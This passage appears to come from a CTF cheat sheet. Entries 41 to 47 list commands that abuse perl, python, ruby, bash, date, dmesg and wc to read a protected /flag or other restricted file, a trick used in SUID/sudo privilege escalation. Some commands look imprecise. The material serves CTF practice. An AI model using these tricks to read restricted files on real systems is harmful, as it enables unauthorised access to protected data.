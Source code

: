 ### 41 - perl

```bash
ctf$: ./perl -ne print /flag
```

### 42 - python

```bash
ctf$: python -c 'print(open("file_to_read").read())'
```

### 43 - ruby

```bash
ctf$: ruby -e 'puts File.read("file_to_read")'
or
ctf$: #!/usr/bin/ruby
aFile = File.new("/flag", "r")
if aFile
content = aFile.sysread(100)
puts content
else
puts "Unable to open file!"
end
```

### 44 - bash

```bash
ctf$: bash -p  /flag

```

### 45 - date

```bash
ctf$: date -f  /flag

```

### 46 - dmesg

dmesg - print or control the kernel ring buffer

```bash
ctf$: dmesg -rF /flag
```

### 47 - wc

wc - print newline, word, and byte counts for each file

```bash
ctf$: wc --files0-from "$LFILE"
```
